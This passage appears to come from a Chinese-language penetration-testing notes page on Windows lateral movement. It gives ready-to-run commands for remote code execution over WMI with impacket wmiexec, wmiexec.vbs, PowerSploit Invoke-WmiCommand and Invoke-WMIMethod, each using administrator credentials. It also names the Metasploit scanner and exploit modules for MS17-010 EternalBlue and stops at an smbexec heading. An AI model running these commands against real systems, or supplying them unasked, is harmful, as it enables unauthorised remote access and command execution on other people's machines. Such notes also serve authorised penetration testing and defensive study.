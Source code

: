 ### [](#impacket-%E5%8C%85%E4%B8%AD%E7%9A%84-wmiexec)impacket 包中的 wmiexec

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmiexec.py administrator:password@IP<br>``` |

### [](#wmiexecvbs)wmiexec.vbs

半交互式 shell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>cscript.exe //nologo wmiexec.vbs /shell IP administrator password<br>``` |

执行单条命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>cscript.exe wmiexec.vbs /cmd IP administrator password "ipconfig"<br>``` |

对于运行时间较长的命令，例如 `ping`、`systeminfo`，需要加入 `-wait 5000` 命令或者更长等待时间。在运行 `nc` 等不需要输出单需要一直等待运行的进程时，需要使用 `-persist` 参数。

### [](#invoke-wmicommand)Invoke-WmiCommand

powersploit 工具包中

将 `Invoke-Wmicommand.ps1` 导入系统

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```powershell<br>$User = "pentest.hacker\administrator"<br><br>$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force<br><br>$Cred = New-Object -TypeName System.Management.AutoMation.PSCredential -ArgumentList $User, $Password<br><br>$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName IP<br><br>$Remore.PayloadOutput<br>``` |

### [](#invoke-wmimethod)Invoke-WMIMethod

利用 `powershell` 自带的 `Invoke-WMIMethod` ，非交互，无回显。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```powershell<br>$User = "pentest.hacker\administrator"<br><br>$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force<br><br>$Cred = New-Object -TypeName System.Management.AutoMation.PSCredential -ArgumentList $User, $Password<br><br>$Remote = Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -Credential $Cred -ComputerName IP<br>``` |

## [](#%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%BC%8F%E6%B4%9E)永恒之蓝漏洞

-   auxiliary/scanner/smb/smb\_ms17\_010
-   exploit/windows/smb/ms17\_010\_eternalblue

## [](#smbexec)smbexec

### [](#c-%E7%89%88%E6%9C%AC-smbexec)C++ 版本 smbexec
